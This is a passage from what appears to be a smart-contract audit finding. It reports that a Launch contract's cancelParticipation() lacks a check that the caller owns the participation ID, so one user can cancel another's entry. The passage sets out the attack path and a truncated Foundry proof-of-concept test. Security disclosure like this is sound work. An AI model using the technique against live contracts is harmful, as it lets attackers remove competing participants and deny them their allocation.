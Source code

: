 3. The attacker must execute the transaction before user1 claims tokens
    - If user1 claims their allocated tokens before the attack is executed, the exploit will fail


### Attack Path

1. Victim (user1) participates in the launch
    - user1 calls participate() and submits a valid ParticipationRequest
    - Their participation is recorded under launchGroupParticipations with a unique launchParticipationId

2. Attacker (user2) submits a forged cancelParticipation() request
    - user2 retrieves user1's launchParticipationId from the event logs or contract storage
    - user2 submits cancelParticipation() with launchParticipationId set to user1's ID

3. Contract fails to verify that msg.sender is the original participant
    - Instead of rejecting the request, the contract executes the cancellation
    - user1's participation is removed, and they may lose their spot in the launch

### Impact

In a limited allocation launch, an attacker could remove competitors to increase their chances of winning

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CancelParticipationRequest
} from "../src/Types.sol";

contract LaunchCancelParticipationTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;

    function setUp() public {
        _setUpLaunch();
    }

    function test_CancelanotherUsersparticipation() public {
        settings = _setupLaunchGroup();
        ParticipationRequest memory request = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(request));
        vm.startPrank(user1);
        currency.approve(
            address(launch), _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount)
        );
        launch.participate(request, signature);
        ParticipationInfo memory info = launch.getParticipationInfo(request.launchParticipationId);
        console.log("User1's balance after participation : ", currency.balanceOf(user1));
        console.log("info.tokenAmount before ex : ", info.tokenAmount);
        console.log("info.currencyAmount before ex: ", info.currencyAmount);
        vm.stopPrank();
```